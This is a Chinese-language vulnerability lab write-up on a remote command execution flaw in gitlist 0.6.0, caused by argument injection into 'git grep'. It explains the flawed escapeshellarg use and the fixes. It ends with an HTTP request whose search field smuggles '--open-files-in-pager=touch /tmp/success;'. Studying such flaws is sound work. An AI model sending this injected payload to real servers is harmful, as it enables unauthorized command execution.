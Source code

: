# gitlist 0.6.0 远程命令执行漏洞

gitlist是一款使用PHP开发的图形化git仓库查看工具。在其0.6.0版本中，存在一处命令参数注入问题，可以导致远程命令执行漏洞。

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`将看到一个名为`example`的仓库。

## 漏洞原理

在用户对仓库中代码进行搜索的时候，gitlist将调用`git grep`命令：

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

其中，`$query`是搜索的关键字，`$branch`是搜索的分支。

如果用户输入的`$query`的值是`--open-files-in-pager=id;`，将可以执行`id`命令：

![](img/1.png)

导致这个漏洞的原因，有几点：

1. 开发者对于`escapeshellarg`函数的误解，造成参数注入
2. `git grep`的参数`--open-files-in-pager`的值，将被直接执行

理论上，在经过`$query = escapeshellarg($query);`处理后，`$query`将变成一个由单引号包裹的字符串。但不出漏洞的前提是，这个字符串应该出现在“参数值”的位置，而不是出现在参数选项（option）中。

我们可以试一下如下命令：

```
git grep -i --line-number -e '--open-files-in-pager=id;' master
```

![](img/2.png)

如上图，我将`$query`放在了`-e`参数的值的位置，此时它就仅仅是一个字符串而已，并不会被当成参数`--open-files-in-pager`。

这应该作为本漏洞的最佳修复方法，也是git官方对pattern可能是用户输入的情况的一种解决方案（以下说明来自man-page）：

> -e 
>   The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by
>   or.

当然，gitlist的开发者用了另一种修复方案：

```php
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }
    $query = preg_replace('/(--?[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
```

首先用`preg_replace`将`-`开头的非法字符移除，然后将`$query`放在`--`的后面。在命令行解析器中，`--`的意思是，此后的部分不会再包含参数选项（option）：

> A -- signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to the name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. If no commands are executed, the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

举个简单的例子，如果我们需要查看一个文件名是`--name`的文件，我们就不能用`cat --name`来读取，也不能用`cat '--name'`，而必须要用`cat -- --name`。从这个例子也能看出，单引号并不是区分一个字符串是“参数值”或“选项”的标准。

![](img/3.png)

所以官方这个修复方案也是可以接受的，只不过第一步的`preg_replace`有点影响正常搜索功能。

## 漏洞复现

发送如下数据包：

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Content-Length: 56

query=--open-files-in-pager=touch /tmp/success;
```

其中，我们访问的是`/example/tree/a/search`，example是项目名称，需要是目标gitlist上一个已存在的项目；a在正常情况下应该是分支的名称，也就是`"grep -i --line-number {$query} $branch"`中的`$branch`，但因为我们的`$query`被当成了一个参数，所以`$branch`就应该被当做搜索的关键字。

如果没有搜索结果的话，我们的命令是不会被执行的，所以我用了“a”这个关键字，只是为了保证能搜出结果，你也可以换成其他的试试。

数据包发送后，用`docker-compose exec web bash`进入容器中，可见`/tmp/success`已成功创建：

![](img/4.png)
